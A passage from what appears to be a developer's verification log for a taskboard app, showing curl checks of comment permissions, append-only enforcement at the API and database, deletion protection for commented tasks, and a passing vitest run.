$ curl -s -w '\nHTTP %{http_code}\n' -X POST http://localhost:3000/api/tasks/$TASK_ID/comments -H "Authorization: Bearer $DEV_TOKEN" -H 'Content-Type: application/json' -d '{"body":"can I comment?"}'
{"error":"viewers can read comments but not post"}
HTTP 403

=== 5. non-member (lina) tries to read -> 403 ===

$ curl -s -w '\nHTTP %{http_code}\n' http://localhost:3000/api/tasks/$TASK_ID/comments -H "Authorization: Bearer $LINA_TOKEN"
{"error":"you are not a member of this project"}
HTTP 403

=== 6. no token -> 401 ===

$ curl -s -w '\nHTTP %{http_code}\n' http://localhost:3000/api/tasks/$TASK_ID/comments
{"error":"unauthorized"}
HTTP 401

=== 7. empty comment -> 400 ===

$ curl -s -w '\nHTTP %{http_code}\n' -X POST http://localhost:3000/api/tasks/$TASK_ID/comments -H "Authorization: Bearer $KAVYA_TOKEN" -H 'Content-Type: application/json' -d '{"body":"   "}'
{"error":"invalid input","details":{"formErrors":[],"fieldErrors":{"body":["comment cannot be empty"]}}}
HTTP 400

=== 8. append-only: PATCH / DELETE on comments -> 405 ===

$ curl -s -o /dev/null -w 'PATCH  HTTP %{http_code}\n' -X PATCH http://localhost:3000/api/tasks/$TASK_ID/comments -H "Authorization: Bearer $MEERA_TOKEN" -H 'Content-Type: application/json' -d '{"body":"rewrite"}'
PATCH  HTTP 405


$ curl -s -o /dev/null -w 'DELETE HTTP %{http_code}\n' -X DELETE http://localhost:3000/api/tasks/$TASK_ID/comments -H "Authorization: Bearer $MEERA_TOKEN"
DELETE HTTP 405

=== 9. append-only at the DB: direct UPDATE/DELETE rejected by trigger ===

$ docker compose exec -T db psql -U taskboard -d taskboard -c "UPDATE task_comments SET body = 'tampered'" 2>&1 | head -1
ERROR:  task_comments is append-only: UPDATE is not allowed


$ docker compose exec -T db psql -U taskboard -d taskboard -c "DELETE FROM task_comments" 2>&1 | head -1
ERROR:  task_comments is append-only: DELETE is not allowed

=== 10. admin deletes the commented task -> 409, comments preserved ===

$ curl -s -w '\nHTTP %{http_code}\n' -X DELETE http://localhost:3000/api/tasks/$TASK_ID -H "Authorization: Bearer $MEERA_TOKEN"
{"error":"this task has comments, which are part of the audit trail, so it cannot be deleted"}
HTTP 409


$ curl -s http://localhost:3000/api/tasks/$TASK_ID/comments -H "Authorization: Bearer $DEV_TOKEN" | node -pe 'JSON.parse(require("fs").readFileSync(0)).comments.length + " comments still present"'
2 comments still present

```

## 8. Final test run

```console
$ docker compose exec web npm test

> taskboard@0.1.0 test
> vitest run

The CJS build of Vite's Node API is deprecated. See https://vite.dev/guide/troubleshooting.html#vite-cjs-node-api-deprecated for more details.

 RUN  v2.1.8 /app

 ✓ |unit| src/tests/auth.test.ts (2 tests) 12ms
 ✓ |unit| src/tests/schemas.test.ts (7 tests) 13ms
 ✓ |unit| src/tests/export-engine.test.ts (34 tests) 25ms
 ✓ |unit| src/tests/TaskCard.test.tsx (3 tests) 98ms
 ✓ |unit| src/tests/CommentThread.test.tsx (5 tests) 197ms
 ✓ |unit| src/tests/ExportPanel.test.tsx (5 tests) 225ms
 ✓ |integration| src/tests/integration/airtable-export.test.ts (16 tests) 1738ms
 ✓ |integration| src/tests/integration/task-comments.test.ts (26 tests) 2328ms
 ✓ |integration| src/tests/integration/tasks-search.test.ts (13 tests) 1130ms
 ✓ |integration| src/tests/integration/comment-retention.test.ts (5 tests) 438ms

 Test Files  10 passed (10)
      Tests  116 passed (116)
   Start at  14:27:08
   Duration  9.82s (transform 2.39s, setup 1.15s, collect 3.74s, tests 6.20s, environment 3.43s, prepare 783ms)

```
